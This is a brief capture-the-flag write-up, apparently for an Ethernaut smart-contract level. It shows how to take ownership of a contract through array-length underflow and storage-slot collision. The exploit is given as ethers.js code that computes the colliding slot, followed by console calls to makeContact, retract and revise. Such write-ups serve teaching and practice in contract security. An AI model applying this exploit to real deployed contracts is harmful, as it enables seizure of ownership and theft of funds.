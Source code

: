 ### Goals

Claim ownership

### Exploit

In this level we would need to use storage collision. Since there can only be 2^256-1 slots in contracts if we somehow set the max length to (2^256-1) for codex some slots will obiously collide with other variables stored in contract. We call `retract()` function that shrinks the length of `codex` array by one, so when `codex` length is 0 it will become `type(uint256).max`

Owner is stored at storage slot0.

### Code

```code
let arraySlot = ethers.toBigInt(
  ethers.keccak256(
    "0x0000000000000000000000000000000000000000000000000000000000000001"
  )
);

// we substract from maxuint256 to find how far the starting slot of the codex is from end of storage and overflow it get owner slot
let collidingSlot = ethers.MaxUint256 - arraySlot + BigInt(1);
```

In console:

```
await contract.makeContact()
await contract.retract()
await contract.revise(collidingSlot, "YOUR_ADDRESS_PADDED")
```

Done!
